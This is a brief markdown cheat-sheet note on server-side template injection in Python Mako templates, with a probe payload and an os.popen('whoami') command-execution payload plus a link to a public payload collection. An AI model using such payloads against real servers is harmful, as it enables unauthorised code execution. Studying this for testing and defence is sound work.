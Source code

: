 # Template Injection Python

If there is no sanitizaiton in Python we can do a Template Injection when e.g. Mako Template for Python is used

Python executes arbitary code when not sanitized as followed: 

```python 
// command injection via keyword 

${ here the operation }
e.g. ${7*7}

${self.module.cache.util.os.popen('whoami').read()}

```

[SSTI Tools and Co.](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)


ls -la <-- to list all